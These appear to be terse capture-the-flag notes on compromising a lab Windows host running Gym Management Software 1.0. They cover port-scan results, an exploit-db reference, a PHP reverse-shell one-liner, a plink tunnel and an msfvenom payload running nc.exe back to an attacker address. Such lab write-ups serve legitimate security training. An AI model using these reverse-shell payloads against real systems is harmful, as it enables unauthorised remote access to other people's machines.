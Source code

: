 Only two ports   
Discovered open port 8080/tcp on 10.10.10.198                                  
Discovered open port 7680/tcp on 10.10.10.198 

---------
8080 is web server 

7680 is windows update delivery  

-----------------------------------------
Runnning dirb while I check via browser
 
In the about us page it shows gym management software 1.0
and by projectworlds.in

There is an exploit for it

https://www.exploit-db.com/exploits/48506

Visiting upload.php I see that there is 
Notice: Undefined index: id in C:\xampp\htdocs\gym\upload.php on line 4
So xampp is running so apache on windows 


php -r '$sock=fsockopen("10.10.14.48",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

-----------------------------------------


.\plink.exe -l user -pw toor 10.10.14.48 -R 8888:127.0.0.1:8888

msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.48 1234' -b '\x00\x0A\x0D' -f p -v payload